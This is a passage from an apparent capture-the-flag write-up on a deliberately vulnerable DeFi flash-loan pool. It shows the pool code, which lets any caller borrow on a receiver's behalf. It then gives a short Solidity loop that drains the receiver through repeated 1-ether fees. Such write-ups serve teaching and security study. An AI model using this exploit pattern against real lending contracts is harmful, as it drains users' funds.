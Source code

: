 To beat this level, we need to comply with

```solidity
assertEq(address(receiver).balance, 0);
assertEq(address(pool).balance, ETHER_IN_POOL + ETHER_IN_RECEIVER);
```

In other words: Drain the receiver, putting its funds in the pool.

### Solution

The fees of the pool are notably high

```solidiy
uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
```

And the `flashLoan()` function doesn't control for the caller

```solidity
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (token != ETH)
        revert UnsupportedCurrency();

    uint256 balanceBefore = address(this).balance;

    // Transfer ETH and handle control to receiver
    SafeTransferLib.safeTransferETH(address(receiver), amount);
    if(receiver.onFlashLoan(
        msg.sender,
        ETH,
// ....
```

Let's just borrow on behalf of the receiver, then 😈

```solidity
IPool pool = IPool(address(level.pool()));
address receiverAddr = address(level.receiver());

for (uint8 i = 0; i < 10; i++) {
  pool.flashLoan(receiverAddr, level.pool().ETH(), address(pool).balance, "0x");
}
```

### References

* https://eips.ethereum.org/EIPS/eip-3156

## 03 Truster
